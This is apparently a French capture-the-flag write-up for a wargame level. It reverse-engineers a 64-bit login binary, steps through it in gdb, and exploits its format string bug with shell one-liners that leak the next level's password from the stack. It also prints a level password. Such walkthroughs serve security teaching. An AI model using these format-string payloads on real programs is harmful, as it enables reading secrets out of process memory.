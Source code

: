 # Level 02

## Analyse du binaire

Lorsqu'on exécute le binaire un username puis un mot de passe est demandé sur l'entrée standard.

On remarque que l'architecture pour laquelle a été conçue le binaire est différente de tous les exercices précédents. En effet il s'agit ici d'une architecture 64 bits **amd64** et non plus **i386**.
Le code asm va donc différer un peu. Les registres 64 bits font leurs apparitions :

| 64 bits registers | Lower 32 bits | Lower 16 bits | Lower 8 bits |
| ----------------- | ------------- | ------------- | ------------ |
| rax               | eax           | ax            | al           |
| rbx               | ebx           | bx            | bl           |
| rcx               | ecx           | cx            | cl           |
| rdx               | edx           | dx            | dl           |
| rsi               | esi           | si            | sil          |
| rdi               | edi           | di            | dil          |
| rbp               | ebp           | bp            | bpl          |
| rsp               | esp           | sp            | spl          |
| r8                | r8d           | r8w           | r8b          |
| r9                | r9d           | r9w           | r9b          |
| r10               | r10d          | r10w          | r10b         |
| r11               | r11d          | r11w          | r11b         |
| r12               | r12d          | r12w          | r12b         |
| r13               | r13d          | r13w          | r13b         |
| r14               | r14d          | r14w          | r14b         |
| r15               | r15d          | r15w          | r15b         |

Les _calling conventions_ sont aussi différentes. De [wikipedia](https://en.wikipedia.org/wiki/X86_calling_conventions#x86-64_calling_conventions) :

```
The first six integer or pointer arguments are passed in registers RDI, RSI, RDX, RCX, R8, R9 (R10 is used as a static chain pointer in case of nested functions),
while XMM0, XMM1, XMM2, XMM3, XMM4, XMM5, XMM6 and XMM7 are used for the first floating point arguments.
As in the Microsoft x64 calling convention, additional arguments are passed on the stack.

```

## Réécriture du code source

On peut réécrire en C un code source :

```c
int main(int argc, const char **argv)
{
	char *password[96];		 // rbp-0x110
	char *password_file[40]; // rbp-0xa0
	char *username[96];		 // rbp-0x70
	int tmp;				 // rbp-0xc
	FILE *file;				 // rbp-0x8

	bzero(username, 96);	  // not really a call to bzero function
	bzero(password_file, 40); // not really a call to bzero function
	bzero(password, 96);	  // not really a call to bzero function

	file = NULL;
	tmp = 0;
	file = fopen("/home/users/level03/.pass", "r");
	if (!file)
	{
		fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
		exit(1);
	}
	tmp = fread(password_file, 1, 41, file);

	int res = strcspn(password_file, "\n");
	password_file[res] = '\0';

	if (tmp != 41)
	{
		fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
		fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
		exit(1);
	}
	fclose(file);

	puts("===== [ Secure Access System v1.0 ] =====");
	puts("/***************************************\\");
	puts("| You must login to access this system. |");
	puts("\**************************************/");

	printf("--[ Username: ");
	fgets(username, 100, stdin);
	int res = strcspn(username, "\n");
	username[res] = '\0';

	printf("--[ Password: ");
	fgets(password, 100, stdin);
	int res = strcspn(password, "\n");
	password[res] = '\0';

	puts("*****************************************");

	if (strncmp(password_file, password, 41))
	{
		printf(username);
		puts(" does not have access!");
		exit(1);
	}

	printf("Greetings, %s!\n", username);
	system("/bin/sh");
	return 0;
}
```

## Débuguer le programme

Le binaire ouvrant et lisant le mot de passe de level03, il est difficile d'utiliser un débugueur puisqu'il n'a donc pas les droits sur ce fichier. Pour pouvoir débuguer un minimum, on peut lors de la lecture utiliser comme fichier l'entrée standard à la place du mot de passe. Pour ce faire il faut utiliser les commandes suivantes dans gdb :

Dans un premier temps on place les breakpoints où l'on veut. Par exemple, juste après le 2e _fgets_ :

```gdb
b *0x400a24
```

- On place deux breakpoints, un à la suite de _fopen_, un avant l'appel de _fclose_. Puis on run le programme.

```gdb
b *0x4008ad
b *0x400981
```

- Au breakpoint `0x4008ad`, on modifie la valeur de retour de _fopen_, pour lui assigner _stdin_ :

```gdb
set $rax = 0x00007ffff7dd4340
```

- Un input est attendu sur l'entrée standard, comme il y aura une vérification sur la longueur du mot de passe on peut utiliser le mot de passe du level actuel : `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` ou toute chaîne de caractères ayant au moins 41 caractères.

- Au breakpoint `0x400981`, on modifie le 1er argument de la fonction _fclose_ :

```gdb
set $rax = 0x00007ffff7dd4180
```

## Exploitation

On peut penser au début que la faille vient de la comparaison entre le mot de passe entré et le mot de passe récupéré depuis le fichier :

```c
strncmp(password_file, password, 41)
```

Cependant, tous les buffers alloués possèdent la bonne taille et ils sont protégés. On ne peut donc pas utiliser de **buffer overflow** pour modifier le mot de passe provenant du fichier et ensuite accéder au shell lancé par la commande système.

Cependant, on remarque juste après que cette comparaison ait échouée un appel à la fonction _printf_ avec comme argument le buffer _username_ :

```c
printf(username);
```

On peut donc utiliser une **format string attack**.

Comme le mot de passe est lu et stocké dans une variable, il faudrait juste pouvoir afficher cette variable pour obtenir notre mot de passe.

En utilisant la commande :

```bash
(echo "%lx %lx %lx %lx %lx %lx %lx %lx %lx"; echo "passwd") | ./level02
```

on obtient :

```
7fffffffe3d0 0 70 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe5c8 1f7ff9a08 647773736170 0 does not have access!
```

Avec gdb, en s'arrêtant juste avant l'appel à la fonction _printf_, on peut voir le contenu des registres :

```
RAX: 0x0
RBX: 0x0
RCX: 0x70 ('p')
RDX: 0x0
RSI: 0x7fffffffe390 --> 0x647773736170 ('passwd')
RDI: 0x7fffffffe430 --> 0x786c25 ('%lx')
RBP: 0x7fffffffe4a0 --> 0x0
RSP: 0x7fffffffe380 --> 0x7fffffffe588 --> 0x7fffffffe7ef ("/home/users/level02/level02")
RIP: 0x400aa2 (<main+654>:      call   0x4006c0 <printf@plt>)
R8 : 0x2a2a2a2a2a2a2a2a ('********')
R9 : 0x2a2a2a2a2a2a2a2a ('********')
R10: 0x7fffffffe110 --> 0x0
```

et de la stack :

```
0000| 0x7fffffffe380 --> 0x7fffffffe588 --> 0x7fffffffe7ef ("/home/users/level02/level02")
0008| 0x7fffffffe388 --> 0x1f7ff9a08
0016| 0x7fffffffe390 --> 0x647773736170 ('passwd')
0024| 0x7fffffffe398 --> 0x0
```

On remarque bien la correspondance entre les paramètres et les registres / la stack. Les adresses `7fffffffe3d0 0 70 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a` correspondent respectivement aux registres `RSI RDX RCX R8 R9`. Les adresses `7fffffffe5c8 1f7ff9a08 647773736170 0` correspondent aux premiers éléments de la stack.

On remarque donc que notre mot de passe est dans la stack et donc qu'on peut le réutiliser. On le vérifie :

```bash
(echo "%s %lx %lx %lx %lx %lx %lx %lx %lx"; echo "AAAAAAAAA") | ./level02
```

```
AAAAAAAAA 0 41 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe5c8 1f7ff9a08 4141414141414141 41 does not have access!
```

On peut donc insérer l'adresse de la variable où est stocké le mot de passe du level03 et l'afficher. L'adresse de cette variable est `0x7fffffffe400`. Cependant on a vu précédement que l'adresse du mot de passe entré par l'utilisateur est différente selon si on exécute le binaire via le débugueur ou non.
On avait dans le débugueur l'adresse `0x7fffffffe390` et l'adresse affichée `0x7fffffffe3d0`. En faisant la différence des deux on obtient 0x40 (hex) ou 64 (dec).
En ajoutant cette différence à notre adressse on obtient `0x7fffffffe400 + 0x40 = 0x7f ffffffe440`.

Finalement on peut utiliser la commande suivante pour afficher le mot de passe de l'utilisateur level03 :

```bash
(echo "%lx %lx %lx %lx %lx %lx %lx %s %lx"; echo -e "\x40\xe4\xff\xff\xff\x7f") | ./level02
```
